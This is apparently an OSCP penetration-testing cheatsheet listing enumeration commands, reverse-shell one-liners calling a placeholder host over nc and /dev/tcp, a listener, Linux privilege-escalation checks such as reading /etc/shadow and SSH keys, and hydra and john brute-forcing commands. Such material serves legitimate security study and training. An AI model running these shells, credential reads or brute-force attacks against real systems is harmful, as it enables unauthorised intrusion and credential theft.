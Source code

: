 # OSCP Cheatsheet

## Enumeration Tools

- Nmap
  ``` 
  nmap -sC -sV <ip>
  ```
- Gobuster
  ``` 
  gobuster dir -t 50 -x php,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <ip>
  ```
- enum4linux 
  ```
  enum4linux -a <ip>
  ```

## Shells

- Ways to get shell
  ```
  nc <ip>:<port> -e /bin/bash
  bash -i &>/dev/tcp/<ip>/<port> <&1
  ```
- Catch Shell
  ```
  nc -lvnp <port>
  ```
- Upgrade nc shell to full tty
 ```
 python -c 'import pty; pty.spawn("/bin/bash")'
 ```

## Privilege Esclation

- Service Exploit
  ```
  service --status-all
  pstree
  ```
- File permissions
  ```
  /etc/passwd
  /etc/shadow
  /etc/crontab
  /etc/cron.d/*
  ```
- Sudo 
  ```
  sudo -l 
  > then use https://gtfobins.github.io
  ```
- Cron
  ```
  cat /etc/crontab
  > Look for jobs and files that are being ran
  > Also look for the PATH variable to see if there is any realtive directory files and a path directory you can write to
  ```
- SUID 
  ```
  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
  > Look for know exploits, Shared Object Injection, and /usr/bin/systemctl
  ```
- Command History 
  ```
  cat ~/.*history | less
  ```
- Config files
  ```
  ls -la /home/<user>/
  > Look for .ssh and other config-type filese that could contain password or hashes
  ```
- Kernel Exploits
  ```
  uname -a
  ```

## Cracking Hashes and Brute Forcing
  - SSH Password
  ```
  hydra -l <username> -P <wordlist> ssh://<ip>
  ```
  - SSH Hash
  ``` 
  python ssh2john.py ~/.ssh/id_rsa > ~/.ssh/id_rsa.hash
  john --wordlist=<wordlist> ~/.ssh/id_rsa.hash
  ```
  - Website credentials

## Other

- Other People Lists
  ```
  https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
  ```
